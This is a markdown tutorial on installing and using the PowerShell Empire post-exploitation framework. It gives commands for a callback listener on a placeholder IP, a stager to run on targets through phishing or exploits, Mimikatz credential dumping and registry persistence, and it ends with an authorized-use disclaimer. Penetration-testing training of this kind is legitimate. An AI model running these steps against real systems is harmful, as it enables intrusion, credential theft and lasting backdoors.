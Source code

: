 # Powershell Empire

## Step-by-Step Tutorial on Using PowerShell Empire

PowerShell Empire is a post-exploitation framework that enables attackers and penetration testers to operate covertly on a compromised system. Below is a detailed guide to setting up and using PowerShell Empire, from installation to executing basic commands.

### Prerequisites

- **Operating System**: Kali Linux or any other Debian-based system is recommended.
- **Python**: PowerShell Empire requires Python 3.7 or above.
- **Git**: Ensure you have Git installed to clone the repository.
- **Internet Connection**: Required for the initial setup and cloning of repositories.

### Step 1: Install Required Dependencies

Before setting up Empire, ensure your system has all the necessary dependencies.

```bash
sudo apt-get update
sudo apt-get install -y git python3 python3-pip
```

### Step 2: Clone the PowerShell Empire Repository

Clone the Empire repository from GitHub.

```bash
git clone https://github.com/BC-SECURITY/Empire.git
cd Empire
```

### Step 3: Install Empire

Navigate to the cloned Empire directory and run the installation script:

```bash
./setup/install.sh
```

This script will handle the installation of all dependencies, including Python packages. Follow any prompts that appear during the installation process.

### Step 4: Configure Empire

Once the installation is complete, start the Empire server:

```bash
./empire
```

When you run Empire for the first time, you’ll be prompted to create an admin user:

```bash
(Empire) > admin create
```

Follow the prompts to set up a username and password.

### Step 5: Start the Empire Server

After setting up the admin account, start the server using the following command:

```bash
(Empire) > listeners
```

This command will allow you to manage listeners, which are used to handle connections from agents. 

### Step 6: Create a Listener

Listeners are essential for establishing connections with compromised systems. Here’s how to create an HTTP listener:

```bash
(Empire) > listeners
(Empire: listeners) > uselistener http
(Empire: listeners/http) > set Host http://<your_ip>:<port>
(Empire: listeners/http) > set Port 8080
(Empire: listeners/http) > execute
```

Replace `<your_ip>` with your server’s IP address. The port can be set to any open port (8080 is commonly used).

### Step 7: Generate a Stager

A stager is used to deploy the Empire agent onto a target system. Here’s how to generate a PowerShell stager:

```bash
(Empire) > usestager windows/launcher_bat
(Empire: stager/launcher_bat) > set Listener <listener_name>
(Empire: stager/launcher_bat) > execute
```

This will generate a Base64-encoded PowerShell command that you can use to deploy the stager on the target system.

### Step 8: Deploy the Stager on the Target System

To gain control of a target system, you need to execute the stager on it. This can be done through various methods, such as phishing, exploiting vulnerabilities, or using social engineering.

Once executed, the stager will connect back to your Empire listener, establishing a session.

### Step 9: Interact with the Agent

After the stager successfully executes, an agent will appear under the `agents` tab in Empire. To interact with the agent:

```bash
(Empire) > agents
(Empire: agents) > interact <agent_name>
```

### Step 10: Execute Commands on the Compromised System

Once you have an active session with the agent, you can execute various post-exploitation modules. For example, to gather system information:

```bash
(Empire: <agent_name>) > sysinfo
```

Or to run Mimikatz to dump credentials:

```bash
(Empire: <agent_name>) > usemodule credentials/mimikatz/logonpasswords
(Empire: module/credentials/mimikatz/logonpasswords) > execute
```

### Step 11: Maintain Persistence

To ensure you maintain access, you can set up persistence mechanisms, such as a registry-based backdoor:

```bash
(Empire: <agent_name>) > usemodule persistence/elevated/registry
(Empire: module/persistence/elevated/registry) > set Listener <listener_name>
(Empire: module/persistence/elevated/registry) > execute
```

### Step 12: Clean Up

After completing your activities, it’s important to clean up:

1. **Kill Agents**: 
    ```bash
    (Empire: <agent_name>) > agents kill <agent_name>
    ```
2. **Remove Listeners**:
    ```bash
    (Empire: listeners) > listeners kill <listener_name>
    ```

3. **Terminate Empire**:
    ```bash
    (Empire) > exit
    ```

# Conclusion

PowerShell Empire is a powerful tool for post-exploitation tasks, offering a wide range of modules and capabilities. Always remember that using such tools without proper authorization is illegal and unethical. This tutorial is intended for educational purposes, to be used within legal boundaries such as penetration testing within your own environment or with explicit permission.
